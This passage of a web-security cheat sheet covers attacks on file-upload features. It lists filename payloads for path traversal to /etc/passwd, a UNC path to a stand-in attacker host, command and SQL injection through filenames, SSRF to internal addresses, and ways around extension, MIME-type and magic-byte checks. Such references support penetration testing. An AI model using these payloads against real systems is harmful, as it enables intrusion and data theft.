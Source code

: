 Try to use different kinds of path as a filename:
- Absolute path, for example `filename=/etc/passwd`
- Relative path, for example `filename=../../../../../../etc/passwd`
- UNC path, for example `filename=\\attacker-website.com\file.png`

## Injections via filename

Try to exploit command injection or sqli via filename, for example `a$(whoami)z.png`, ```a`whoami`z.png``` or `a';select+sleep(10);--z.png`

## SSRF via filename

Try to send URL as filename to get blind SSRF, for example `filename=https://172.17.0.1/internal/file`. You can also try to change `type="file"` to `type="url"` within a request.

## DoS via large filename

Try to upload a file with large name, sometimes it leads to DoS.

References:
- [Report: profile-picture name parameter with large value lead to DoS for other users and programs on the platform](https://hackerone.com/reports/764434)

# Bypass restrictions

## Content-Type

Try to change a Content-Type value:
- Allowed MIME-type + disallowed extension
- Disallowed MIME-type + allowed extension
- Remove Content-Type
- Send Content-Type twice within request with allowed and disallowed MIME-types

## Magic bytes

If an application use a file's magic bytes to deduce the Content-type, you can try to bypass security measures by forging the magic bytes of an allowed file. For example, if GIF images are allowed, you can forge a GIF image's magic bytes `GIF89a` to make the server think we are sending it a valid GIF.

References:
- [Full list of known file magic bytes](https://en.wikipedia.org/wiki/List_of_file_signatures)

## Extension

Try to change a file extension:
- Less-common extension, such as `.phtml`
- Double extension, such as `.jpg.svg` or `.svg.jpg`
- Extension with a delimeter, such as `%0a`, `%09`, `%0d`, `%00`, `#`, etc. For example, `file.png%00.svg` or `file.png\x0d\x0a.svg`
- Empty extension, for example `file.`
- Extension with varied capitalization, such as `.sVG`
- Try to cut allowed extension with max filename length.
- Empty filename, for example `.svg`
- Right-to-left override, for example `file.%E2%80%AEphp.jpg`, see [Report: RTL override symbol not stripped from file names](https://hackerone.com/reports/298)
- Send filename twice within request with allowed and disallowed extensions, for example `filename="file.png";filename="file.svg"`
